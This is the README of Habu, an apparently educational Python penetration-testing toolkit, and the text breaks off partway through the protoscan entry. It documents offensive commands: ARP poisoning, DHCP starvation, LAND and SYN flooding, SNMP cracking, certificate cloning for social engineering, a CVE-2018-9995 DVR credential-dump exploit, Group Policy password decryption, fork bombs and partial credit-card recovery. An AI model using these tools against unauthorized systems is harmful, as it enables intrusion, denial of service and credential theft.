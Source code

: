 Habu: Python Network Hacking Toolkit
====================================

I'm developing Habu to teach (and learn) some concepts about Python and
Network Hacking.

These are basic functions that help with some tasks for Ethical Hacking
and Penetration Testing.

Most of them are related with networking, and the implementations are
intended to be understandable for who wants to read the source code and
learn from that.

Some techniques implemented in the current version are:

* ARP Poisoning
* ARP Sniffing
* DHCP Discover
* DHCP Starvation
* Fake FTP Server
* LAND Attack
* SNMP Cracking
* Subdomains Identification
* SSL/TLS Certificate Cloner
* SYN Flooding
* TCP Flags Analysis
* TCP ISN Analysis
* TCP Port Scan
* Username check on social networks
* Virtual Hosts Identification
* Web Techonologies Identification


Usage Videos
------------

The following Youtube Playlist has videos that shows the installation
and usage:

<https://www.youtube.com/watch?v=rgp9seLLyqE&list=PL4HZnX8VnFXqSvNw7x-bXOn0dgxNdfnVD>

Telegram Group
--------------

If you want to discuss some Habu features, possible improvements, etc,
you can use the Habu Telegram Group: <https://t.me/python_habu>

Issues and pull requests must be sent to github repo:
<https://github.com/portantier/habu>

Installation
------------

**Kali Linux:**

You can install the package created for Kali Linux. See
<https://github.com/portantier/habu/releases>

**Python Package (PyPi):**

Habu is on PyPi, so you can install it directly with pip:

```
$ pip3 install habu
```

Dependencies
------------

Habu requires Python3 and the following packages:

* beautifulsoup4
* click
* cryptography
* dnspython
* lxml
* prompt\_toolkit
* pygments
* regex
* requests
* requests-cache
* scapy-python3
* websockets
* matplotlib (Optional, only needed if you want to make some graphs)

Get Help
--------

All the commands implement the option '--help', that shows the help,
arguments, options, and default values.

Verbose Mode
------------

Almost all commands implement the verbose mode with the '-v' option.
This can give you some extra info about what habu is doing.

Commands Index
--------------

* `arp.ping <#habuarpping>`_
* `arp.poison <#habuarppoison>`_
* `arp.sniff <#habuarpsniff>`_
* `asydns <#habuasydns>`_
* `b64 <#habub64>`_
* `certclone <#habucertclone>`_
* `config.del <#habuconfigdel>`_
* `config.set <#habuconfigset>`_
* `config.show <#habuconfigshow>`_
* `contest <#habucontest>`_
* `crack.luhn <#habucrackluhn>`_
* `crack.snmp <#habucracksnmp>`_
* `crtsh <#habucrtsh>`_
* `cve.2018.9995 <#habucve20189995>`_
* `cymon.ip <#habucymonip>`_
* `cymon.ip.timeline <#habucymoniptimeline>`_
* `decrypt.gppref <#habudecryptgppref>`_
* `dhcp.discover <#habudhcpdiscover>`_
* `dhcp.starvation <#habudhcpstarvation>`_
* `dns.lookup.forward <#habudnslookupforward>`_
* `dns.lookup.reverse <#habudnslookupreverse>`_
* `eicar <#habueicar>`_
* `extract.email <#habuextractemail>`_
* `extract.hostname <#habuextracthostname>`_
* `extract.ipv4 <#habuextractipv4>`_
* `fernet <#habufernet>`_
* `fernet.genkey <#habufernetgenkey>`_
* `forkbomb <#habuforkbomb>`_
* `gateway.find <#habugatewayfind>`_
* `hasher <#habuhasher>`_
* `ip <#habuip>`_
* `ip2asn <#habuip2asn>`_
* `ip.internal <#habuipinternal>`_
* `isn <#habuisn>`_
* `jshell <#habujshell>`_
* `karma <#habukarma>`_
* `karma.bulk <#habukarmabulk>`_
* `land <#habuland>`_
* `nc <#habunc>`_
* `nmap.excluded <#habunmapexcluded>`_
* `nmap.open <#habunmapopen>`_
* `nmap.ports <#habunmapports>`_
* `ping <#habuping>`_
* `protoscan <#habuprotoscan>`_
* `server.ftp <#habuserverftp>`_
* `shodan <#habushodan>`_
* `shodan.open <#habushodanopen>`_
* `synflood <#habusynflood>`_
* `tcpflags <#habutcpflags>`_
* `tcpscan <#habutcpscan>`_
* `traceroute <#habutraceroute>`_
* `usercheck <#habuusercheck>`_
* `vhosts <#habuvhosts>`_
* `virustotal <#habuvirustotal>`_
* `web.report <#habuwebreport>`_
* `web.screenshot <#habuwebscreenshot>`_
* `web.tech <#habuwebtech>`_
* `whois.domain <#habuwhoisdomain>`_
* `whois.ip <#habuwhoisip>`_
* `xor <#habuxor>`_

habu.arp.ping
-------------

.. code-block::

    Usage: habu.arp.ping [OPTIONS] IP
    
      Send ARP packets to check if a host it's alive in the local network.
    
      Example:
    
      # habu.arp.ping 192.168.0.1
      Ether / ARP is at a4:08:f5:19:17:a4 says 192.168.0.1 / Padding
    
    Options:
      -i TEXT  Interface to use
      -v       Verbose output
      --help   Show this message and exit.
    

habu.arp.poison
---------------

.. code-block::

    Usage: habu.arp.poison [OPTIONS] VICTIM1 VICTIM2
    
      Send ARP 'is-at' packets to each victim, poisoning their ARP tables for
      send the traffic to your system.
    
      Note: If you want a full working Man In The Middle attack, you need to
      enable the packet forwarding on your operating system to act like a
      router. You can do that using:
    
      # echo 1 > /proc/sys/net/ipv4/ip_forward
    
      Example:
    
      # habu.arpoison 192.168.0.1 192.168.0.77
      Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.77
      Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.70
      Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.77
      ...
    
    Options:
      -i TEXT  Interface to use
      -v       Verbose
      --help   Show this message and exit.
    

habu.arp.sniff
--------------

.. code-block::

    Usage: habu.arp.sniff [OPTIONS]
    
      Listen for ARP packets and show information for each device.
    
      Columns: Seconds from last packet | IP | MAC | Vendor
    
      Example:
    
      1   192.168.0.1     a4:08:f5:19:17:a4   Sagemcom Broadband SAS
      7   192.168.0.2     64:bc:0c:33:e5:57   LG Electronics (Mobile Communications)
      2   192.168.0.5     00:c2:c6:30:2c:58   Intel Corporate
      6   192.168.0.7     54:f2:01:db:35:58   Samsung Electronics Co.,Ltd
    
    Options:
      -i TEXT  Interface to use
      --help   Show this message and exit.
    

habu.asydns
-----------

.. code-block::

    Usage: habu.asydns [OPTIONS]
    
      Requests a DNS domain name based on public and private RSA keys using the
      AsyDNS protocol https://github.com/portantier/asydns
    
      Example:
    
      $ habu.asydns -v
      Generating RSA key ...
      Loading RSA key ...
      {
          "ip": "181.31.41.231",
          "name": "07286e90fd6e7e6be61d6a7919967c7cf3bbfb23a36edbc72b6d7c53.a.asydns.org"
      }
    
      $ dig +short 07286e90fd6e7e6be61d6a7919967c7cf3bbfb23a36edbc72b6d7c53.a.asydns.org
      181.31.41.231
    
    Options:
      -u TEXT  API URL
      -g       Force the generation of a new key pair
      -r       Revoke the public key
      -v       Verbose output
      --help   Show this message and exit.
    

habu.b64
--------

.. code-block::

    Usage: habu.b64 [OPTIONS] [F]
    
      Encodes or decode data in base64, just like the command base64.
    
      $ echo awesome | habu.b64
      YXdlc29tZQo=
    
      $ echo YXdlc29tZQo= | habu.b64 -d
      awesome
    
    Options:
      -d      decode instead of encode
      --help  Show this message and exit.
    

habu.certclone
--------------

.. code-block::

    Usage: habu.certclone [OPTIONS] HOSTNAME PORT KEYFILE CERTFILE
    
      Connect to an SSL/TLS server, get the certificate and generate a
      certificate with the same options and field values.
    
      Note: The generated certificate is invalid, but can be used for social
      engineering attacks
    
      Example:
    
      $ habu.certclone www.google.com 443 /tmp/key.pem /tmp/cert.pem
    
    Options:
      --copy-extensions  Copy certificate extensions (default: False)
      --expired          Generate an expired certificate (default: False)
      -v                 Verbose
      --help             Show this message and exit.
    

habu.config.del
---------------

.. code-block::

    Usage: habu.config.del [OPTIONS] KEY
    
      Delete a KEY from the configuration.
    
      Note: By default, KEY is converted to uppercase.
    
      Example:
    
      $ habu.config.del DNS_SERVER
    
    Options:
      --help  Show this message and exit.
    

habu.config.set
---------------

.. code-block::

    Usage: habu.config.set [OPTIONS] KEY VALUE
    
      Set VALUE to the config KEY.
    
      Note: By default, KEY is converted to uppercase.
    
      Example:
    
      $ habu.config.set DNS_SERVER 8.8.8.8
    
    Options:
      --help  Show this message and exit.
    

habu.config.show
----------------

.. code-block::

    Usage: habu.config.show [OPTIONS]
    
      Show the current config.
    
      Note: By default, the options with 'KEY' in their name are shadowed.
    
      Example:
    
      $ habu.config.show
      {
          "DNS_SERVER": "8.8.8.8",
          "FERNET_KEY": "*************"
      }
    
    Options:
      --show-keys       Show also the key values
      --option TEXT...  Write to the config(KEY VALUE)
      --help            Show this message and exit.
    

habu.contest
------------

.. code-block::

    Usage: habu.contest [OPTIONS]
    
      Try to connect to various services and check if can reach them using your
      internet connection.
    
      Example:
    
      $ habu.contest
      IP:    True
      DNS:   True
      FTP:   True
      SSH:   True
      HTTP:  True
      HTTPS: True
    
    Options:
      --help  Show this message and exit.
    

habu.crack.luhn
---------------

.. code-block::

    Usage: habu.crack.luhn [OPTIONS] NUMBER
    
      Having known values for a Luhn validated number, obtain the possible
      unknown numbers.
    
      Numbers that use the Luhn algorithm for validation are Credit Cards, IMEI,
      National Provider Identifier in the United States, Canadian Social
      Insurance Numbers, Israel ID Numbers and Greek Social Security Numbers
      (ΑΜΚΑ).
    
      The '-' characters are ignored.
    
      Define the missing numbers with the 'x' character.
    
      Reference: https://en.wikipedia.org/wiki/Luhn_algorithm
    
      Example:
    
      $ habu.crack.luhn 4509-xxxx-3160-6445
    
    Options:
      --help  Show this message and exit.
    

habu.crack.snmp
---------------

.. code-block::

    Usage: habu.crack.snmp [OPTIONS] IP
    
      Launches snmp-get queries against an IP, and tells you when finds a valid
      community string (is a simple SNMP cracker).
    
      The dictionary used is the distributed with the onesixtyone tool
      https://github.com/trailofbits/onesixtyone
    
      Example:
    
      # habu.crack.snmp 179.125.234.210
      Community found: private
      Community found: public
    
      Note: You can also receive messages like \<UNIVERSAL\> \<class
      'scapy.asn1.asn1.ASN1\_Class\_metaclass'\>, I don't know how to supress
      them for now.
    
    Options:
      -p INTEGER  Port to use
      -c TEXT     Community (default: list of most used)
      -s          Stop after first match
      -v          Verbose
      --help      Show this message and exit.
    

habu.crtsh
----------

.. code-block::

    Usage: habu.crtsh [OPTIONS] DOMAIN
    
      Downloads the certificate transparency logs for a domain and check with
      DNS queries if each subdomain exists.
    
      Uses multithreading to improve the performance of the DNS queries.
    
      Example:
    
      $ sudo habu.crtsh securetia.com
      [
          "karma.securetia.com.",
          "www.securetia.com."
      ]
    
    Options:
      -c      Disable cache
      -n      Disable DNS subdomain validation
      -v      Verbose output
      --help  Show this message and exit.
    

habu.cve.2018.9995
------------------

.. code-block::

    Usage: habu.cve.2018.9995 [OPTIONS] IP
    
      Exploit the CVE-2018-9995 vulnerability, present on various DVR systems.
    
      Note: Based on the original code from Ezequiel Fernandez (@capitan_alfa).
    
      Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9995
    
      Example:
    
      $ python habu.cve.2018-9995 82.202.102.42
      [
          {
              "uid": "admin",
              "pwd": "securepassword",
              "role": 2,
              "enmac": 0,
              "mac": "00:00:00:00:00:00",
              "playback": 4294967295,
              "view": 4294967295,
              "rview": 4294967295,
              "ptz": 4294967295,
              "backup": 4294967295,
              "opt": 4294967295
          }
      ]
    
    Options:
      -p INTEGER  Port to use (default: 80)
      -v          Verbose
      --help      Show this message and exit.
    

habu.cymon.ip
-------------

.. code-block::

    Usage: habu.cymon.ip [OPTIONS] IP
    
      Simple cymon API client.
    
      Prints the JSON result of a cymon IP query.
    
      Example:
    
      $ habu.cymon.ip 8.8.8.8
      {
          "addr": "8.8.8.8",
          "created": "2015-03-23T12:03:42Z",
          "updated": "2018-08-24T04:06:07Z",
          "sources": [
              "safeweb.norton.com",
              "botscout.com",
              "virustotal.com",
              "phishtank"
          ],
          "events": "https://www.cymon.io/api/nexus/v1/ip/8.8.8.8/events",
          "domains": "https://www.cymon.io/api/nexus/v1/ip/8.8.8.8/domains",
          "urls": "https://www.cymon.io/api/nexus/v1/ip/8.8.8.8/urls"
      }
    
    Options:
      -c           Disable cache
      -v           Verbose output
      -o FILENAME  Output file (default: stdout)
      --help       Show this message and exit.
    

habu.cymon.ip.timeline
----------------------

.. code-block::

    Usage: habu.cymon.ip.timeline [OPTIONS] IP
    
      Simple cymon API client.
    
      Prints the JSON result of a cymon IP timeline query.
    
      Example:
    
      $ habu.cymon.ip.timeline 8.8.8.8
      {
          "timeline": [
              {
                  "time_label": "Aug. 18, 2018",
                  "events": [
                      {
                          "description": "Posted: 2018-08-18 23:37:39 CEST IDS Alerts: 0 URLQuery Alerts: 1 ...",
                          "created": "2018-08-18T21:39:07Z",
                          "title": "Malicious activity reported by urlquery.net",
                          "details_url": "http://urlquery.net/report/b1393866-9b1f-4a8e-b02b-9636989050f3",
                          "tag": "malicious activity"
                      }
                  ]
              },
              ...
    
    Options:
      -c           Disable cache
      -v           Verbose output
      -o FILENAME  Output file (default: stdout)
      -p           Pretty output
      --help       Show this message and exit.
    

habu.decrypt.gppref
-------------------

.. code-block::

    Usage: habu.decrypt.gppref [OPTIONS] PASSWORD
    
      Decrypt the password of local users added via Windows 2008 Group Policy
      Preferences.
    
      This value is the 'cpassword' attribute embedded in the Groups.xml file,
      stored in the domain controller's Sysvol share.
    
      Example:
    
      # habu.decrypt.gpp AzVJmXh/J9KrU5n0czX1uBPLSUjzFE8j7dOltPD8tLk
      testpassword
    
    Options:
      --help  Show this message and exit.
    

habu.dhcp.discover
------------------

.. code-block::

    Usage: habu.dhcp.discover [OPTIONS]
    
      Send a DHCP request and show what devices has replied.
    
      Note: Using '-v' you can see all the options (like DNS servers) included
      on the responses.
    
      # habu.dhcp_discover
      Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.5:bootpc / BOOTP / DHCP
    
    Options:
      -i TEXT     Interface to use
      -t INTEGER  Time (seconds) to wait for responses
      -v          Verbose output
      --help      Show this message and exit.
    

habu.dhcp.starvation
--------------------

.. code-block::

    Usage: habu.dhcp.starvation [OPTIONS]
    
      Send multiple DHCP requests from forged MAC addresses to fill the DHCP
      server leases.
    
      When all the available network addresses are assigned, the DHCP server
      don't send responses.
    
      So, some attacks, like DHCP spoofing, can be made.
    
      # habu.dhcp_starvation
      Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.6:bootpc / BOOTP / DHCP
      Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.7:bootpc / BOOTP / DHCP
      Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.8:bootpc / BOOTP / DHCP
    
    Options:
      -i TEXT     Interface to use
      -t INTEGER  Time (seconds) to wait for responses
      -s INTEGER  Time (seconds) between requests
      -v          Verbose output
      --help      Show this message and exit.
    

habu.dns.lookup.forward
-----------------------

.. code-block::

    Usage: habu.dns.lookup.forward [OPTIONS] HOSTNAME
    
      Perform a forward lookup of a given hostname.
    
      Example:
    
      $ habu.dns.lookup.forward google.com
      {
          "ipv4": "172.217.168.46",
          "ipv6": "2a00:1450:400a:802::200e"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.dns.lookup.reverse
-----------------------

.. code-block::

    Usage: habu.dns.lookup.reverse [OPTIONS] IP_ADDRESS
    
      Perform a reverse lookup of a given IP address.
    
      Example:
    
      $ $ habu.dns.lookup.reverse 8.8.8.8
      {
          "hostname": "google-public-dns-a.google.com"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.eicar
----------

.. code-block::

    Usage: habu.eicar [OPTIONS]
    
      Print the EICAR test string that can be used to test antimalware engines.
    
      More info: http://www.eicar.org/86-0-Intended-use.html
    
      Example:
    
      $ habu.eicar
      X5O!P%@AP[4\XZP54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
    
    Options:
      --help  Show this message and exit.
    

habu.extract.email
------------------

.. code-block::

    Usage: habu.extract.email [OPTIONS] [INFILE]
    
      Extract email addresses from a file or stdin.
    
      Example:
    
      $ cat /var/log/auth.log | habu.extract.email
      john@securetia.com
      raven@acmecorp.net
      nmarks@fimax.com
    
    Options:
      -v      Verbose output
      -j      JSON output
      --help  Show this message and exit.
    

habu.extract.hostname
---------------------

.. code-block::

    Usage: habu.extract.hostname [OPTIONS] [INFILE]
    
      Extract hostnames from a file or stdin.
    
      Example:
    
      $ cat /var/log/some.log | habu.extract.hostname
      www.google.com
      ibm.com
      fileserver.redhat.com
    
    Options:
      -c      Check if hostname resolves
      -v      Verbose output
      -j      JSON output
      --help  Show this message and exit.
    

habu.extract.ipv4
-----------------

.. code-block::

    Usage: habu.extract.ipv4 [OPTIONS] [INFILE]
    
      Extract IPv4 addresses from a file or stdin.
    
      Example:
    
      $ cat /var/log/auth.log | habu.extract.ipv4
      172.217.162.4
      23.52.213.96
      190.210.43.70
    
    Options:
      --json  JSON output
      -v      Verbose output
      --help  Show this message and exit.
    

habu.fernet
-----------

.. code-block::

    Usage: habu.fernet [OPTIONS]
    
      Fernet cipher.
    
      Uses AES-128-CBC with HMAC
    
      Note: You must use a key to cipher with Fernet.
    
      Use the -k paramenter or set the FERNET_KEY configuration value.
    
      The keys can be generated with the command habu.fernet.genkey
    
      Reference: https://github.com/fernet/spec/blob/master/Spec.md
    
      Example:
    
      $ "I want to protect this string" | habu.fernet
      gAAAAABbXnCGoCULLuVNRElYTbEcwnek9iq5jBKq9JAN3wiiBUzPqpUgV5oWvnC6xfIA...
    
      $ echo gAAAAABbXnCGoCULLuVNRElYTbEcwnek9iq5jBKq9JAN3wiiBUzPqpUgV5oWvnC6xfIA... | habu.fernet -d
      I want to protect this string
    
    Options:
      -k TEXT        Key
      -d             Decrypt instead of encrypt
      --ttl INTEGER  Time To Live for timestamp verification
      -i FILENAME    Input file (default: stdin)
      -o FILENAME    Output file (default: stdout)
      --help         Show this message and exit.
    

habu.fernet.genkey
------------------

.. code-block::

    Usage: habu.fernet.genkey [OPTIONS]
    
      Generate a new Fernet Key, optionally write it to ~/.habu.json
    
      Example:
    
      $ habu.fernet.genkey
      xgvWCIvjwe9Uq7NBvwO796iI4dsGD623QOT9GWqnuhg=
    
    Options:
      -w      Write this key to ~/.habu.json
      --help  Show this message and exit.
    

habu.forkbomb
-------------

.. code-block::

    Usage: habu.forkbomb [OPTIONS] [bash|batch|c|haskell|perl|php|python|ruby]
    
      A shortcut to remember how to use fork bombs in different languages.
    
      Currently supported: bash, batch, c, haskell, perl, php, python, ruby.
    
      Example:
    
      $ habu.forkbomb c
      #include <unistd.h>
      int main()
      {
          while(1)
          {
              fork();
          }
          return 0;
      }
    
    Options:
      --help  Show this message and exit.
    

habu.gateway.find
-----------------

.. code-block::

    Usage: habu.gateway.find [OPTIONS] NETWORK
    
      Try to reach an external IP using any host has a router.
    
      Useful to find routers in your network.
    
      First, uses arping to detect alive hosts and obtain MAC addresses.
    
      Later, create a network packet and put each MAC address as destination.
    
      Last, print the devices that forwarded correctly the packets.
    
      Example:
    
      # habu.find.gateway 192.168.0.0/24
      192.168.0.1 a4:08:f5:19:17:a4 Sagemcom
      192.168.0.7 b0:98:2b:5d:22:70 Sagemcom
      192.168.0.8 b0:98:2b:5d:1f:e8 Sagemcom
    
    Options:
      -i TEXT                Interface to use
      --host TEXT            Host to reach (default: 8.8.8.8)
      --tcp                  Use TCP instead of ICMP
      --dport INTEGER RANGE  Destination port for TCP (default: 80)
      --timeout INTEGER      Timeout in seconds (default: 5)
      -v                     Verbose output
      --help                 Show this message and exit.
    

habu.hasher
-----------

.. code-block::

    Usage: habu.hasher [OPTIONS] [F]
    
      Compute various hashes for the input data, that can be a file or a stream.
    
      Example:
    
      $ habu.hasher README.rst
      md5          992a833cd162047daaa6a236b8ac15ae README.rst
      ripemd160    0566f9141e65e57cae93e0e3b70d1d8c2ccb0623 README.rst
      sha1         d7dbfd2c5e2828eb22f776550c826e4166526253 README.rst
      sha256       6bb22d927e1b6307ced616821a1877b6cc35e... README.rst
      sha512       8743f3eb12a11cf3edcc16e400fb14d599b4a... README.rst
      whirlpool    96bcc083242e796992c0f3462f330811f9e8c... README.rst
    
      You can also specify which algorithm to use. In such case, the output is
      only the value of the calculated hash:
    
      $ habu.hasher -a md5 README.rst
      992a833cd162047daaa6a236b8ac15ae README.rst
    
    Options:
      -a [md5|sha1|sha256|sha512|ripemd160|whirlpool]
                                      Only this algorithm (Default: all)
      --help                          Show this message and exit.
    

habu.ip
-------

.. code-block::

    

habu.ip2asn
-----------

.. code-block::

    Usage: habu.ip2asn [OPTIONS] IP
    
      Use Team Cymru ip2asn service to get information about a public IPv4/IPv6.
    
      Reference: https://www.team-cymru.com/IP-ASN-mapping.html
    
      $ habu.ip2asn 8.8.8.8
      {
          "asn": "15169",
          "net": "8.8.8.0/24",
          "cc": "US",
          "rir": "ARIN",
          "asname": "GOOGLE - Google LLC, US",
          "country": "United States"
      }
    
    Options:
      --help  Show this message and exit.
    

habu.ip.internal
----------------

.. code-block::

    Usage: habu.ip.internal [OPTIONS]
    
      Get the local IP address(es) of the local interfaces.
    
      Example:
    
      $ habu.ip.internal
      {
        "lo": {
          "ipv4": [
            {
              "addr": "127.0.0.1",
              "netmask": "255.0.0.0",
              "peer": "127.0.0.1"
            }
          ],
          "link_layer": [
            {
              "addr": "00:00:00:00:00:00",
              "peer": "00:00:00:00:00:00"
            }
          ],
          "ipv6": [
            {
              "addr": "::1",
              "netmask": "ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff/128"
            }
          ]
        },
      ...
    
    Options:
      -v      Verbose output.
      --help  Show this message and exit.
    

habu.isn
--------

.. code-block::

    Usage: habu.isn [OPTIONS] IP
    
      Create TCP connections and print the TCP initial sequence numbers for each
      one.
    
      $ sudo habu.isn -c 5 www.portantier.com
      1962287220
      1800895007
      589617930
      3393793979
      469428558
    
      Note: You can get a graphical representation (needs the matplotlib
      package) using the '-g' option to better understand the randomness.
    
    Options:
      -p INTEGER  Port to use (default: 80)
      -c INTEGER  How many packets to send/receive (default: 5)
      -i TEXT     Interface to use
      -g          Graph (requires matplotlib)
      -v          Verbose output
      --help      Show this message and exit.
    

habu.jshell
-----------

.. code-block::

    

habu.karma
----------

.. code-block::

    Usage: habu.karma [OPTIONS] HOST
    
      Use the Karma service https://karma.securetia.com to check an IP against
      various Threat Intelligence / Reputation lists.
    
      $ habu.karma www.google.com
      www.google.com -> 64.233.190.99
      [
          "hphosts_fsa",
          "hphosts_psh",
          "hphosts_emd"
      ]
    
      Note: You can use the hostname or the IP of the host to query.
    
    Options:
      --help  Show this message and exit.
    

habu.karma.bulk
---------------

.. code-block::

    Usage: habu.karma.bulk [OPTIONS] [INFILE]
    
      Show which IP addresses are inside blacklists using the Karma online
      service.
    
      Example:
    
      $ cat /var/log/auth.log | habu.extract.ipv4 | habu.karma.bulk
      172.217.162.4   spamhaus_drop,alienvault_spamming
      23.52.213.96    CLEAN
      190.210.43.70   alienvault_malicious
    
    Options:
      --json  JSON output
      --bad   Show only entries in blacklists
      -v      Verbose output
      --help  Show this message and exit.
    

habu.land
---------

.. code-block::

    Usage: habu.land [OPTIONS] IP
    
      This command implements the LAND attack, that sends packets forging the
      source IP address to be the same that the destination IP. Also uses the
      same source and destination port.
    
      The attack is very old, and can be used to make a Denial of Service on old
      systems, like Windows NT 4.0. More information here:
      https://en.wikipedia.org/wiki/LAND
    
      # sudo habu.land 172.16.0.10
      ............
    
      Note: Each dot (.) is a sent packet. You can specify how many packets send
      with the '-c' option. The default is never stop. Also, you can specify the
      destination port, with the '-p' option.
    
    Options:
      -c INTEGER  How many packets send (default: infinit)
      -p INTEGER  Port to use (default: 135)
      -i TEXT     Interface to use
      -v          Verbose
      --help      Show this message and exit.
    

habu.nc
-------

.. code-block::

    Usage: habu.nc [OPTIONS] HOST PORT
    
      Some kind of netcat/ncat replacement.
    
      The execution emulates the feeling of this popular tools.
    
      Example:
    
      $ habu.nc --crlf www.portantier.com 80
      Connected to 45.77.113.133 80
      HEAD / HTTP/1.0
    
      HTTP/1.0 301 Moved Permanently
      Date: Thu, 26 Jul 2018 21:10:51 GMT
      Server: OpenBSD httpd
      Connection: close
      Content-Type: text/html
      Content-Length: 443
      Location: https://www.portantier.com/
    
    Options:
      --family [4|6|46]            IP Address Family
      --ssl                        Enable SSL
      --crlf                       Use CRLF for EOL sequence
      --protocol [tcp|udp]         Layer 4 protocol to use
      --source-ip TEXT             Source IP to use
      --source-port INTEGER RANGE  Source port to use
      --help                       Show this message and exit.
    

habu.nmap.excluded
------------------

.. code-block::

    Usage: habu.nmap.excluded [OPTIONS]
    
      Prints a random port that is not present on nmap-services file so is not
      scanned automatically by nmap.
    
      Useful for services like SSH or RDP, that are continuously scanned on
      their default ports.
    
      Example:
    
      # habu.nmap.excluded
      58567
    
    Options:
      -l INTEGER RANGE  Lowest port to consider
      -h INTEGER RANGE  Highest port to consider
      --help            Show this message and exit.
    

habu.nmap.open
--------------

.. code-block::

    Usage: habu.nmap.open [OPTIONS] SCANFILE
    
      Read an nmap report and print the open ports.
    
      Print the ports that has been resulted open reading the generated nmap
      output.
    
      You can use it to rapidly reutilize the port list for the input of other
      tools.
    
      Supports and detects the 3 output formats (nmap, gnmap and xml)
    
      Example:
    
      # habu.nmap.open portantier.nmap
      22,80,443
    
    Options:
      -p [tcp|udp|sctp]  The protocol (default=tcp)
      --help             Show this message and exit.
    

habu.nmap.ports
---------------

.. code-block::

    Usage: habu.nmap.ports [OPTIONS] SCANFILE
    
      Read an nmap report and print the tested ports.
    
      Print the ports that has been tested reading the generated nmap output.
    
      You can use it to rapidly reutilize the port list for the input of other
      tools.
    
      Supports and detects the 3 output formats (nmap, gnmap and xml)
    
      Example:
    
      # habu.nmap.ports portantier.nmap
      21,22,23,80,443
    
    Options:
      -p [tcp|udp|sctp]  The protocol (default=tcp)
      --help             Show this message and exit.
    

habu.ping
---------

.. code-block::

    Usage: habu.ping [OPTIONS] IP
    
      The classic ping tool that send ICMP echo requests.
    
      # habu.ping 8.8.8.8
      IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
      IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
      IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
      IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
    
    Options:
      -i TEXT     Wich interface to use (default: auto)
      -c INTEGER  How many packets send (default: infinit)
      -t INTEGER  Timeout in seconds (default: 2)
      -w INTEGER  How many seconds between packets (default: 1)
      -v          Verbose
      --help      Show this message and exit.
    

habu.protoscan
--------------

.. code-block::

    Usage: habu.protoscan [OPTIONS] IP
    
      Send IP packets with different protocol field content to guess what layer
      4 protocols are available.
    
